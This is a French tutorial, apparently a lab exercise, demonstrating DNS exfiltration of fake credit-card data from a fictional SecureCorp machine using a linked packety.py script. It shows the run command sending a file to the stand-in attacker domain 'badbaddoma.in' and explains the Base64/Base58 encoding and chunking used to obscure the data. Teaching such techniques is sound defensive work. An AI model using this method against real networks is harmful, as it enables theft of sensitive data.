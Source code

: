 ### Exfiltration DNS : Exemple

- Dans cet exemple de scénario, un attaquant essaie d'exfiltrer des données vers son système et a décidé que sa meilleure option serait d'utiliser des requêtes DNS. 
- L'objectif de l'attaquant est d'exfiltrer des informations sensibles d'une machine sur le réseau de SecureCorp. Dans cette démo, je montrerai les étapes qu'un attaquant pourrait suivre pour exfiltrer ces données de la machine compromise.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>

les informations de carte de crédit ont été générés via un faux générateur de cartes de crédit. 
Toutes les informations de carte de crédit sont fausses :)

Les fichiers utilisés pour cette démo se trouvent dans le repo `dns-exfil-infil` sur GitHub. 
Vous aurez besoin de fichiers pour compléter le reste du TP.

[securecorp.txt](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/securecorp.txt)  
[packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  
[packetGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

1. Fichier texte contenant de faux numéros de carte de crédit, noms, adresses.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129675221958696/1.PNG"/>


2. packety.py ( https://github.com/kleosdc/dns-exfil-infil )

Lorsque packety.py est exécuté, vous devrez fournir au script l'entrée suivante :

* Nom de fichier : (C'est le fichier (Text file RECOMMENDED) que vous essayez d'exfiltrer du réseau de SecureCorp)

* Nom de domaine : ( c'est ici que vous allez mettre votre nom de domaine, par exemple badbaddoma.in )

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129727180472340/2.1.PNG"/>


`python packety.py
`
`Filename: securecorp.txt
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in
`
`[+] Reading file.
`
`[+] Base64 encoded.
`
`[+] Base58 encoded.
`
`Start transmitting... [PRESS ENTER KEY]
`

- Le code commence par la lecture du fichier texte.   
- Le contenu du fichier texte sera d'abord encodé en Base64 puis en Base58. Cela nous laisse avec une longue chaîne encodée.  
- La chaîne est ensuite divisée en sections de 20 caractères où chaque section aura 3 caractères 'factices' ajoutés pour plus d'obscurcissement.   
- Un caractère sera ajouté au début de la chaîne encodée et deux caractères seront ajoutés.
